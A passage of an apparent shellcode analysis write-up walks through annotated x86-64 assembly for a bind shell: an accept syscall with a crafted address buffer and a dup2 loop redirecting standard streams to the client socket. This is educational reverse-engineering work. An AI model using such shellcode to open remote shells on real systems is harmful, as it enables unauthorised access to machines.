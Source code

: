 ```nasm
; use syscall accept
push   0x2b
pop    rax

; clear RDX by sign-extension
cdq    

; push 16 NULL bytes (empty sockaddr structure)
push   rdx
push   rdx

; 2nd argument of accept: buffer for the sockaddr_in6 struct
; should be 28 bytes, but in this case it's only 16
push   rsp
pop    rsi

; 3rd argument of accept: pointer to the size of the buffer
; in this case it's 28 bytes
push   0x1c
lea    rdx,[rsp]

; call syscall accept
syscall 
```

<figcaption class="figure-caption">Shellcode calling syscall accept</figcaption>

Nonetheless, the shellcode sets the third argument to 28. Doing so, the syscall will store a 28-bytes address starting from the base address indicated by the register `RSI`.

This way, the syscall would be able to overwrite the remaining 12 bytes if needed.

## I/O Redirection

Once a connection has been accepted by the server socket, it needs to redirect three `standard file descriptors`:

- standard input (stdin) -> file descriptor 0

- standard output (stdout) -> file descriptor 1

- standard error (stderr) -> file descriptor 2

The shellcode uses the syscall `dup2` to redirect these file descriptors, looping from 2 to 0:

```nasm
(gdb) x/8i $pc

   ; save the file descriptor of the client socket into RDI
   ; 1st argument of dup2
=> 0x4000b5:    xchg   rdi,rax

   ; 2nd argument of dup2
   ; file descriptor to redirect
   0x4000b7:    push   0x3
   0x4000b9:    pop    rsi
   
   ; use syscall 0x21: dup2
   0x4000ba:    push   0x21
   0x4000bc:    pop    rax
   
   0x4000bd:    dec    esi
   
   ; call dup2
   0x4000bf:    syscall
   
   ; go back to redirect the other standard file descriptors
```